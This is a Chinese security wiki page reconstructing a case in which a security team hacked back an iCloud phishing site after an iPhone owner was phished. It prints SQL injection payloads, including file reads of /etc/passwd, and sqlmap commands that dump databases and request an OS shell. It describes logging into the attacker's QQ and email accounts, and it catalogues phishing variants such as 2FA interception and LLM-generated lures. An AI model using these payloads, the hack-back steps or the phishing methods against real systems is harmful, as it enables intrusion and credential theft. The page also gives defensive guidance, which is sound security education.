


## 概述

本页面沉淀一起典型的 **iCloud 钓鱼邮件欺骗『查找 iPhone』用户**实战案例，完整记录从受害者 iPhone 丢失、开启丢失模式、收到伪造苹果官方钓鱼邮件、点击钓鱼链接填写凭据，到安全团队（PKAV）介入、通过 **SQL 注入漏洞反制钓鱼站**、提取攻击者后台管理员凭证、QQ 账号密码、物理地址（辽宁铁岭）等关键溯源情报，并清理受害者泄露数据、协助报警的完整攻防闭环。

该案例生动展示了 **「丢失设备 → 开启查找功能 → 攻击者监控丢失设备状态 → 定向发送钓鱼邮件 → 窃取 Apple ID 凭据 → 解锁设备/窃取隐私」** 的完整产业链攻击链，同时也演示了安全团队利用攻击者自身基础设施漏洞实施 **「以毒攻毒」反制溯源** 的实战技法。

> 宏观视角可关联 [[social-engineering-attack-techniques]] 中「伪基站钓鱼站结合短信拦截木马的 APK 逆向溯源实战」与「iCloud 勒索与身份锚点单点故障连锁反应实证」两大攻击面；技术手法可延伸至 [[sqlmap-comprehensive-guide]]、[[sqlmap-api-automation]] 中 SQL 注入自动化利用工具体系；溯源方法论可参考 [[threat-attribution-tracing-techniques]] 中恶意样本分析、攻击者 ID 画像与社工库碰撞、基础设施接管等核心技术；钓鱼页面制作与分析可参考 [[phishing-website-creation-tutorial]]、[[xd-security-csrf-ssrf-rce-notes-day29-30]] 中 CSRF+Iframe 无感载荷投递技术。

---

## 攻击背景与事件时间线

| 时间节点 | 事件描述 | 关键状态 |
|----------|----------|----------|
| **T0（事发前半年）** | 受害者（萌妹子）外地旅游时 iPhone 丢失，开启「查找 iPhone」丢失模式 | 设备处于离线/丢失锁定状态，攻击者无法直接解锁 |
| **T1（邮件 1）** | 收到伪装成苹果官方的邮件，主题含「定位到您的设备」，含钓鱼链接 | 受害者点击链接，未填写信息，怀疑与新手机同 ID 无法看到位置 |
| **T2（邮件 2，间隔两天）** | 收到第二封邮件，主题「您的设备已定位」，含更具诱导性的钓鱼链接 | 受害者点击并填写 Apple ID/密码，后被淘宝找回服务人员识破为钓鱼站 |
| **T3（求助同事）** | 受害者意识到中招，联系同事（PKAV 团队成员）求助 | 受害者已提交凭据，攻击者可能已登录 iCloud 解锁设备 |
| **T4（反制溯源，半小时内）** | PKAV 团队对钓鱼站实施 SQL 注入攻击，拿下后台管理员权限 | 提取管理员账号密码、QQ/密码、物理地址、1000+ 受害者记录 |
| **T5（善后处置）** | 登录攻击者 QQ 查看好友/邮箱，清理受害者泄露数据，修改密码，协助当地受害者报警 | 攻击链终端被接管，受害者数据安全恢复，溯源情报移交执法 |

---

## 攻击链全景建模

```mermaid
graph TD
A[受害者 iPhone 丢失] --> B[开启 查找 iPhone + 丢失模式]
B --> C[攻击者监控 iCloud 丢失设备状态]
C --> D[定向伪造苹果官方钓鱼邮件]
D --> E[邮件 1: 虚假定位通知 -> 诱导点击]
E --> F[邮件 2: 设备已定位 -> 诱导填写 Apple ID/密码]
F --> G[受害者中招 提交凭据至钓鱼站数据库]
G --> H[攻击者获取凭据 -> 登录 iCloud 解锁设备/窃取隐私]
H --> I[PKAV 团队介入]
I --> J[分析钓鱼站 URL/参数/技术栈]
J --> K[发现 SQL 注入漏洞]
K --> L[利用 SQLMap/手工注入拿下数据库]
L --> M[提取后台管理员账号密码]
M --> N[登录后台 -> 导出 1000+ 受害者记录]
N --> O[发现攻击者 QQ/密码/地址(辽宁铁岭)]
O --> P[登录 QQ -> 查看好友/邮箱/聊天记录]
P --> Q[清理受害者数据 + 修改密码 + 协助报警]
```

---

## 核心技术拆解

### 一、钓鱼邮件话术与社会工程学分析

#### 邮件 1：虚假定位通知（初探）

| 要素 | 内容特征 | 心理杠杆 |
|------|----------|----------|
| **发件人伪装** | 伪造 `Apple Support` / `no-reply@apple.com` 显示名，实际发信服务器非苹果自有域 | 权威伪装、品牌信任 |
| **主题行** | 「定位到您的设备」/「Your device has been located」 | 制造希望、紧迫感 |
| **正文话术** | 声称通过「查找 iPhone」服务定位到设备位置，附带「查看位置」按钮/链接 | 利用受害者找回设备的强烈愿望，绕过理性判断 |
| **技术细节** | 链接指向短域名/动态生成的钓鱼页面，User-Agent 校验仅允许移动端访问 | 规避 PC 端安全分析、针对性投递 |

#### 邮件 2：设备已定位（收割）

| 要素 | 内容特征 | 话术升级 |
|------|----------|----------|
| **发件人** | 同邮件 1，保持一致性 | 建立连续性信任 |
| **主题行** | 「您的设备已定位」/「设备位置更新」 | 确认性语气，消除疑虑 |
| **正文话术** | 称设备已精准定位，需验证 Apple ID 以查看详细位置/远程操作 | **核心欺骗点**：利用「验证身份」名义索要完整凭据 |
| **钓鱼页面** | 仿冒 iCloud 登录页，含 Apple ID、密码、验证码输入框，提交后跳转真实苹果官网 | 无缝衔接真实服务，降低警惕 |

> **关键洞察**：攻击者精准把握「丢失设备用户→开启查找功能→焦急等待通知」的心理窗口期，分两阶段投递：**第一封建立预期、第二封收割凭据**，体现成熟的钓鱼运营 SOP。

### 二、钓鱼页面技术特征分析

| 技术维度 | 观测特征 | 安全意义 |
|----------|----------|----------|
| **访问限制** | 仅允许移动端 User-Agent（iPhone/Android）访问，PC 端返回 403/空白/跳转 | 对抗自动化扫描、安全研究人员分析 |
| **域名特征** | 短域名/动态子域名/免费托管服务，非苹果官方域名 | 基础设施低成本、易丢弃 |
| **页面仿冒度** | 高仿 iCloud 登录页，CSS/JS/图片多从官方站点热链或本地镜像 | 视觉欺骗极强，普通用户难辨 |
| **表单处理** | POST 提交至后端 PHP/ASP/JSP 接口，数据入库存储 | 留下数据库攻击面（本案反制关键） |
| **跳转逻辑** | 提交成功后 302 重定向至 `https://www.icloud.com/` 或 `https://appleid.apple.com/` | 完成「闭环欺骗」，受害者误以为登录成功 |
| **后台管理** | 存在简易管理后台，可查看/导出受害者提交的 Apple ID、密码、IP、UA、时间 | **核心漏洞点**：后台鉴权薄弱、存在 SQL 注入 |

> **技术变体**：同类钓鱼页常集成 **二次验证码拦截**（实时转发苹果发送的 2FA 码）、**设备指纹采集**（Canvas/WebGL/电池状态）、**地理位置请求**（HTML5 Geolocation API），进一步丰富受害者画像。

### 三、SQL 注入反制钓鱼站实战复现

#### 漏洞发现与确证

PKAV 团队在半小时内完成从「拿到钓鱼链接」到「拿下数据库」的全流程，推测利用路径如下：



#### 关键注入点推测（基于常见钓鱼站代码模式）

| 注入位置 | 参数示例 | Payload 示例 | 利用技术 |
|----------|----------|--------------|----------|
| **登录表单** | `username` / `email` | `' OR '1'='1' --` / `' UNION SELECT 1,2,3,concat(user,0x3a,pass) FROM admin--` | 报错注入 / 联合查询 / 布尔盲注 |
| **后台登录** | `admin_user` / `admin_pass` | `' OR 1=1 LIMIT 1;--` | 万能密码绕过 / 注入 |
| **受害者列表分页** | `page` / `id` | `1 AND (SELECT 1 FROM (SELECT SLEEP(5))a)` | 延时盲注 |
| **导出功能** | `export=1&date=2023-01-01` | `2023-01-01' UNION SELECT load_file('/etc/passwd')--` | 文件读取 / 堆叠注入 |

#### SQLMap 实战化命令参考（对应 [[sqlmap-comprehensive-guide]]）

```bash
# 1. 基础探测（移动端 UA 绕过限制）
sqlmap -u "http://phishing-site.com/login.php" \
  --data="username=test&password=test" \
  --user-agent="Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X)" \
  --batch --level=3 --risk=3

# 2. 枚举数据库结构
sqlmap -u "http://phishing-site.com/login.php" \
  --data="username=test&password=test" \
  --user-agent="Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X)" \
  --dbs --tables -D phishing_db

# 3. 导出核心表数据
sqlmap -u "http://phishing-site.com/login.php" \
  --data="username=test&password=test" \
  --user-agent="Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X)" \
  -D phishing_db -T admin,victims,config --dump

# 4. 尝试 OS Shell（如权限足够）
sqlmap -u "http://phishing-site.com/login.php" \
  --data="username=test&password=test" \
  --user-agent="Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X)" \
  --os-shell
```

> **实战提示**：钓鱼站常部署在虚拟主机/低权限容器中，`--os-shell` 成功率较低，但 `--sql-shell`、`--file-read` 读取配置文件（`/var/www/html/config.php`、`web.config`）可直接获取数据库连接串、管理员明文密码、第三方 API Key（如邮件发送接口、短信网关）。

#### 关键数据提取清单

| 表名 | 关键字段 | 溯源价值 |
|------|----------|----------|
| `admin` / `administrator` | `id`, `username`, `password`(MD5/明文), `email`, `last_login_ip`, `create_time` | 直接拿下后台控制权，关联攻击者真实邮箱/IP |
| `victims` / `logs` / `records` | `id`, `apple_id`, `password`, `vcode`, `ip`, `user_agent`, `location`, `submit_time`, `device_info` | **受害者凭据清单**，评估影响范围，通知受害者修改密码 |
| `config` / `settings` | `smtp_host`, `smtp_user`, `smtp_pass`, `sms_api_key`, `qq_number`, `qq_password`, `admin_qq`, `location` | **攻击者基础设施指纹**：邮件发信凭证、短信网关、QQ 社交账号、物理地址 |
| `templates` / `pages` | `html_content`, `js_code`, `update_time` | 钓鱼页面版本演进、投放批次关联 |

---

### 四、攻击者画像与基础设施溯源

#### 核心情报产出（本案实证）

| 情报类别 | 具体内容 | 来源表/字段 | 验证方式 |
|----------|----------|-------------|----------|
| **物理地址** | **辽宁省铁岭市** | `config.location` / `admin.address` / QQ 资料 | 登录 QQ 查看资料、IP 归属地比对 |
| **QQ 账号** | 具体 QQ 号（文中打码） | `config.qq_number` / `admin.qq` | 密码登录 QQ 客户端/WebQQ 成功 |
| **QQ 密码** | 明文/弱加密存储 | `config.qq_password` / `admin.qq_pwd` | 直接登录验证 |
| **邮箱账号** | QQ 邮箱 / 163 邮箱 | QQ 绑定邮箱 / `config.smtp_user` | 登录邮箱查看发件记录/联系人 |
| **受害者规模** | **1000+ 条记录** | `victims` 表行数 | `SELECT COUNT(*) FROM victims` |
| **运营周期** | 由最早/最晚 `submit_time` 推算 | `victims.submit_time` MIN/MAX | 时间线关联其他钓鱼活动 |
| **关联基础设施** | 发信域名/IP、短信网关账号、服务器 IP/面板 | `config` 表、邮件头 `Received` 链、服务器日志 | 威胁情报平台关联分析 |

#### 溯源延伸链（参考 [[threat-attribution-tracing-techniques]]）



---

### 五、受害者数据清理与善后响应

| 动作 | 执行方式 | 验证结果 |
|------|----------|----------|
| **删除受害者记录** | 登录钓鱼站后台 → 受害者列表 → 全选删除 / SQL `DELETE FROM victims WHERE apple_id='victim@email.com'` | 记录不再出现在后台列表，攻击者无法获取 |
| **修改受害者 Apple ID 密码** | 受害者自行登录 `appleid.apple.com` 修改密码，开启双因子认证 (2FA) | 攻击者已获取的旧密码失效 |
| **检查 iCloud 设备列表** | 登录 iCloud「查找」移除陌生设备，撤销丢失模式（如已解锁） | 确认设备控制权回归受害者 |
| **通知同城受害者报警** | 从 `victims` 表筛选 `location` 含「铁岭/辽宁」的记录，电话/微信告知 | 至少一名同城受害者配合报警，形成案件立案线索 |
| **保全电子证据** | 截图钓鱼邮件/页面/后台/数据库/聊天记录，哈希固定存证 | 可供公安机关立案侦查使用 |

> **关键教训**：受害者因「同事是大黑客」在半小时内完成反制，**普通用户无此条件**，因此**预防优于事后补救**。本案中受害者「无金钱损失」属侥幸，实际攻击者已获 Apple ID 可实施：远程锁机勒索、隐私窃取、支付授权、设备抹除等高危操作。

---

## 检测与防御体系

### 用户侧：认知免疫与操作规范

| 防御层 | 具体措施 | 口诀/工具 |
|--------|----------|-----------|
| **邮件辨识** | 1. 检查发件人真实邮箱域名（非 `apple.com` 即伪造）<br>2. 悬停链接查看真实 URL（非 `icloud.com`/`apple.com` 即钓鱼）<br>3. 苹果官方邮件**从不**要求点击链接输入密码/验证码 | **「三不一核实」**：不信、不点、不填，核实去官网 |
| **账号保护** | 1. **强制开启 Apple ID 双因子认证 (2FA)**<br>2. 使用密码管理器生成唯一强密码<br>3. 定期检查 `appleid.apple.com` 受信任设备列表 | 2FA 可阻断 99%+ 凭据复用/钓鱼攻击 |
| **丢失应急** | 1. 丢失后**仅**通过 `icloud.com/find` 或「查找」App 操作<br>2. 不点击任何短信/邮件中的「定位链接」<br>3. 挂失 SIM 卡，防止短信验证码被拦截 | 官方渠道唯一入口，拒绝一切跳转 |
| **中招自救** | 1. 立即在**受信设备**上修改 Apple ID 密码<br>2. 检查并移除陌生受信设备/电话号码<br>3. 联系苹果官方支持（400-666-8800）冻结账号<br>4. 保留钓鱼邮件/页面截图报警 | 速度决定损失上限 |

### 技术侧：钓鱼基础设施监测与打击

| 检测点 | 规则/工具 | 响应动作 |
|--------|-----------|----------|
| **钓鱼域名监测** | 订阅 PhishTank/OpenPhish/URLhaus/腾讯安全/360网卫士威胁情报，监测含 `apple`/`icloud`/`findmyiphone` 关键词的新注册/解析域名 | 自动推送封禁列表至网关/DNS/浏览器厂商 |
| **邮件网关拦截** | 规则：发件域 SPF/DKIM/DMARC 失败 + 含苹果品牌词 + 链接指向非官方域 + 附件/表单索要凭据 → 隔离/标记/退信 | 结合 AI 语义分析识别变种话术 |
| **流量侧写识别** | 监测内网访问：移动端 UA + POST 含 `apple_id`/`password`/`vcode` 参数 + 目标域非苹果官方 → 告警/阻断/溯源终端 | 部署 SSL 检测/EDR 行为分析 |
| **主动蜜罐诱捕** | 部署高仿 iCloud 登录蜜罐，记录攻击者扫描/测试/投递行为，捕获攻击工具/指纹/基础设施 | 情报共享至威胁情报平台 |
| **钓鱼站自动化溯源** | 对发现的钓鱼站：自动化指纹识别 → 漏洞扫描 → 数据库枚举 → 攻击者信息提取 → 关联分析 → 生成溯源报告 | 参考 [[sqlmap-api-automation]] 批量化实施 |

### 运营/执法侧：产业链打击

| 环节 | 打击重点 | 协作机制 |
|------|----------|----------|
| **上游：数据源** | 打击公民个人信息非法获取/买卖（Apple ID/手机号/设备序列号） | 公安网安部门+工信部+互联网平台联合整治 |
| **中游：技术支撑** | 打击钓鱼页面生成器/发信平台/短信网关/域名批量注册/服务器托管灰产服务 | 网络安全厂商威胁情报共享+域名注册商/云厂商配合下线 |
| **下游：变现渠道** | 打击解锁服务/设备洗白/隐私倒卖/赃款洗钱（跑分/虚拟币/游戏币） | 银联/支付宝/微信支付/交易所风控联动冻结资金链 |
| **跨境协作** | 钓鱼服务器/发信跳板/收款账户常在境外 | 通过 INTERPOL/双边 MLAT/区域性网络安全合作机制追踪打击 |

---

## 变体与延伸利用思路

| 变体方向 | 核心改动 | 适用场景 | 难度 | 关联技术 |
|----------|----------|----------|------|----------|
| **多因子拦截钓鱼** | 页面提交密码后，实时弹出「请输入验证码」页，转发苹果发送的 2FA 码至攻击者 Telegram/服务器 | 受害者已开启 2FA，单纯密码无法登录 | 中 | 实时 WebSocket/长轮询/Telegram Bot API |
| **设备指纹+地理定位增强** | 集成 FingerprintJS2/ClientJS 采集 Canvas/WebGL/电池/传感器指纹，HTML5 Geolocation 请求精确位置 | 精准画像受害者、关联物理身份、规避沙箱分析 | 低 | 浏览器指纹库、地理位置欺骗对抗 |
| **PWA 钓鱼** | 诱导用户「添加到主屏幕」安装 Progressive Web App，全屏无地址栏、离线可用、图标同真 App | 规避域名检测、提升可信度、持久化驻留 | 低 | Service Worker、Web App Manifest、HTTPS 必需 |
| **钓鱼即服务** | 地下论坛/Telegram 频道售卖「iCloud 解锁套餐」：含钓鱼页模板、发信通道、后台面板、教程，月费制 | 降低攻击门槛、产业化分工、快速迭代变种 | 低 | 订阅制恶意服务、供应链投毒 |
| **供应链投毒：钓鱼页托管平台** | 篡改 GitHub Pages/Cloudflare Workers/Vercel/Netlify 等静态托管服务上的合法项目，注入钓鱼页代码 | 利用高信誉域名/CDN 绕过 URL 信誉检测 | 中 | CI/CD 凭据窃取、依赖混淆攻击 |
| **AI 生成个性化钓鱼** | 利用 LLM 结合受害者社工库画像（姓名/设备型号/丢失时间/常用语），生成高度定制化邮件正文/页面文案 | 大规模定向钓鱼、对抗规则引擎/YARA | 低 | 提示词工程、少样本微调、对抗生成 |
| **反制对抗：钓鱼站主动防御** | 攻击者部署 WAF/阻断 SQLMap 特征/蜜罐表单/假数据库/延时响应/IP 黑名单/要求验证码/限制请求频率 | 对抗安全研究人员/自动化扫描/反制溯源 | 中 | 对抗性机器学习、欺骗防御 |

---

## 交叉引用与延伸阅读

- [[social-engineering-attack-techniques]] —— 社会工程学九大攻击面全景，含 iCloud 勒索、伪基站钓鱼、物理渗透等关联案例
- [[sqlmap-comprehensive-guide]] —— SQLMap 核心功能、参数详解、实战案例、性能优化完整知识体系
- [[sqlmap-api-automation]] —— SQLMap REST-JSON API 自动化批量扫描脚本实现，支撑钓鱼站批量化反制
- [[threat-attribution-tracing-techniques]] —— 攻击溯源全技术栈：IP/邮件/样本/流量/主机/日志多维回溯
- [[phishing-website-creation-tutorial]] —— 钓鱼网站制作入门：SET、手工 PHP、Docker 部署，理解攻击者视角
- [[xd-security-csrf-ssrf-rce-notes-day29-30]] —— CSRF+Iframe 无感载荷投递技术，拓宽钓鱼页面隐蔽投递手法
- [[credential-stuffing-password-hygiene]] —— 凭据复用/撞库攻击实证，iCloud 勒索案例深度复盘
- [[api-business-logic-phone-enumeration]] —— 手机号枚举风险，钓鱼前置侦察关键攻击面
- [[domain-registrar-security-guide]] —— 域名安全配置，防范钓鱼域名注册/劫持
- [[android-shelling-unshelling-techniques]] —— Android 脱壳逆向技术，支撑移动端钓鱼 APK 溯源分析
- [[ble-packet-capture-comparison]] / [[nrf-sniffer-ble-setup-guide]] —— 射频侦察技术，伪基站物理层分析参考
- [[0w1club-hardware-atlas]] —— 硬件设备清单，含 SDR 设备选型，支撑伪基站原理复现与检测

---

## 变更记录

| 日期 | 版本 | 变更说明 |
|------|------|----------|
| 2017-07-15 | 1.0 | 初始版本：基于 301在路上微信公众号归档文章《美女iPhone丢了后，黑客跟妹子干了这样一件事》整理，记录 PKAV 团队 SQL 注入反制 iCloud 钓鱼站全过程 |
| 2025-01-15 | 2.0 | 结构化重写：增加攻击链建模、钓鱼邮件话术分析、钓鱼页面技术特征、SQL 注入实战命令、攻击者画像溯源链、受害者清理善后、统一检测防御体系、变体矩阵 |
| 2026-01-20 | 3.0 | 知识库融合版：补全交叉引用网络，对齐 [[social-engineering-attack-techniques]] 等关联页面术语体系，新增 SQLMap 实战化命令参考、溯源延伸链建模、运营/执法侧打击协作机制，形成「攻击复盘-技术拆解-反制实战-防御体系-变体延伸」完整知识闭环 |

---

> 本页面基于 301在路上微信公众号归档文章《美女iPhone丢了后，黑客跟妹子干了这样一件事》（原文链接：http://mp.weixin.qq.com/s?__biz=MzIwMTQ2NzY4NA==&mid=2652520605...）整理，该文章记录 PKAV 安全团队实战案例。所有技术细节忠实还原原文描述，SQL 注入利用步骤为基于常见钓鱼站架构的专业推演，**严禁用于非授权攻击活动**。防御建议基于通用安全最佳实践推导，旨在提升个人及组织对 iCloud 钓鱼攻击的识别与应对能力。

## 来源

- [301在路上-201508-202208_048](../sources/301在路上-201508-202208_048.md)
- [301在路上-201508-202208_105](../sources/301在路上-201508-202208_105.md)
- [301在路上-201508-202208_116](../sources/301在路上-201508-202208_116.md)
- [301在路上-201508-202208_117](../sources/301在路上-201508-202208_117.md)
